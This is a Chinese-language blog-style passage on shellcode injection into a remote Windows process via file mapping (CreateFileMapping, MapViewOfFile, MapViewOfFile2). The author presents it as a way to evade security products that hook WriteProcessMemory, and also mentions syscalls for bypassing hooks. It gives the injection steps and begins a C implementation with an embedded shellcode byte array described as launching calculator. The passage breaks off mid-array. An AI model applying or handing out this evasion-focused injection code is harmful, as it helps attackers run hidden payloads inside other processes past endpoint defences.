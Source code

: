 在远程进程注入之 shellcode 注入的时候，常规方案是：

`VirtualAllocEx` → `WriteProcessMemory`

>注意这里必须是 `VirtualAllocEx` 而非 `VirtualAlloc`，因为 VirtualAlloc 是给调用进程分配内存；而 VirtualAllocEx 才是给另一个进程的地址空间中分配内存。

现在这两个函数都挺敏感的，在下曾经遇到过天擎拦截 `WriteProcessMemory`。当然我们可以对 API 作精修，比如替换为内核函数，这样可以绕过 uerland hook。就算是 inline hook，也可以使用 syscall 进行绕过。

但其实要完成[在远程进程中分配内存并将shellcode复制进去]这一任务，还可以使用一套API链，也就是所谓的映射注入 `File Mapping`。

我不是故意想搞名词，名词是为了概括，东西并不难，我只是记录一条链，不喜勿喷。

# 思路一

`CreateFileMapping` → `MapViewOfFile` → `MapViewOfFile2`


原理见我的亲兄弟idiotc4t的文章 [Mapping Injection](https://idiotc4t.com/code-and-dll-process-injection/mapping-injection)。

`CreateFileMapping`
创建或打开指定文件的命名或未命名文件映射对象。

`MapViewOfFile`
将文件映射的视图映射到调用进程的地址空间。

`MapViewOfFile2`
将文件或页面文件支持的部分的视图映射到指定进程的地址空间。

**概括一下注入流程：**

1. 在注入进程/调用进程创建文件映射对象 mapping（使用 `CreateFileMapping` API）
2. 将 mapping 映射到注入进程的虚拟地址（使用 `CreateFileMapping` API）
3. 往被映射的虚拟地址写入shellcode（`memcpy` 库函数）
4. 打开被注入进程句柄
5. 将 mapping 映射到被注入进程虚拟地址（使用 `MapViewOfFile2` API）


**代码实现（我把这个过程自己封成了一个函数 MappingShellcodeFile）：**


```
#include <windows.h>
#include <stdio.h>
#include <tchar.h>
#include <tlhelp32.h>

#pragma comment (lib, "OneCore.lib")
//MapViewOfFile2函数依赖这个静态链接库

BOOL MappingShellcodeFile(LPPROCESS_INFORMATION pi, unsigned char* shellcode, DWORD dwShellcodeLength);

int main(void)
{
	int result;

	//弹计算器 shellcode
	unsigned char shellcode[] =
		"\x55\x8B\xEC\x83\xEC\x20\x64\xA1\x30\x00\x00\x00\x8B\x40"
		"\x0C\x8B\x40\x1C\x8B\x00\x8B\x00\x8B\x40\x08\xC7\x45\xFC"
		"\x00\x00\x00\x00\xC7\x45\xF8\x00\x00\x00\x00\xC7\x45\xF4"
		"\x00\x00\x00\x00\x8B\x58\x3C\x8D\x1C\x18\x8B\x5B\x78\x8D"
		"\x14\x18\x8B\x5A\x1C\x8D\x1C\x18\x89\x5D\xFC\x8B\x5A\x20"
		"\x8D\x1C\x18\x89\x5D\xF8\x8B\x5A\x24\x8D\x1C\x18\x89\x5D"
		"\xF4\x8B\x7A\x18\x33\xC9\x8B\x75\xF8\x8B\x1C\x8E\x8D\x1C"
		"\x18\x8B\x1B\x81\xFB\x57\x69\x6E\x45\x74\x03\x41\xEB\xED"
		"\x8B\x5D\xF4\x33\xD2\x66\x8B\x14\x4B\x8B\x5D\xFC\x8B\x1C"
```
